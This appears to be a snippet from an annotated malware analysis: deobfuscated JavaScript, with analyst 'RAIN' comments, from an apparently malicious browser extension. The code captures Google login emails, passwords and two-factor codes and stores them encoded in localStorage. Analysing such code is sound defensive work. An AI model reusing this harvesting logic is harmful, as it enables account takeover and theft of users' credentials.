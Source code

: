 ```javascript
    data = data + ("uid: " + email + "\t\tpass: ") + (password + "\r\n\r\nlogin: ") + (window.location.href + "\r\n");
    data += "normal: " + getDomain(!1) + "\r\n";
    data += "ext: " + extType + "\r\n";
    data += "instd: " + numDayInst + "\r\n";
    data += "uid: " + usrHxId + "\r\n";
    data += "why: googlogin\r\n";
    extgaLog(data);
    localStorage.setItem("extCacheFunc", dblB64(data, "encode"));
    hkScndFctAuth();  // RAIN: Caches two-factor code
  }
}

// RAIN: Reformatted for clarity
function hkScndFctAuth() {
    extgaLog("hkScndFctAuth");

    // RAIN: This ID is incorrect
    var a = document.getElementById("next");

    if (a) {
      a.addEventListener("click", googCacheFunc2, !1);
      document.documentElement.addEventListener("keypress", function(a) {
        13 === a.keyCode && googCacheFunc2()
      }, !1);
    } else {
      setTimeout(hkScndFctAuth, 1E3)
    }
}

// RAIN: Reformatted for clarity
function googCacheFunc2() {
  var a = "",
      b = "",
      c = document.getElementsByTagName("input");

  for (var d = 0; d < c.length; d++) {
    if ("text" == c[d].getAttribute("type") || "tel" == c[d].getAttribute("type")) {
      b = c[d].value;
    }
  }

  if (0 != b.length) {
    a = a + ("2nd factor: " + b + "\r\n\r\nlogin: ") + (window.location.href + "\r\n");
    a += "normal: " + getDomain(!1) + "\r\n";
    a += "ext: " + extType + "\r\n", a += "instd: " + numDayInst + "\r\n", a += "uid: " + usrHxId + "\r\n";
    a += "why: goog2nd\r\n";
    extgaLog(a);
    localStorage.setItem("extCacheFunc2", dblB64(a, "encode"));
  }
}
```
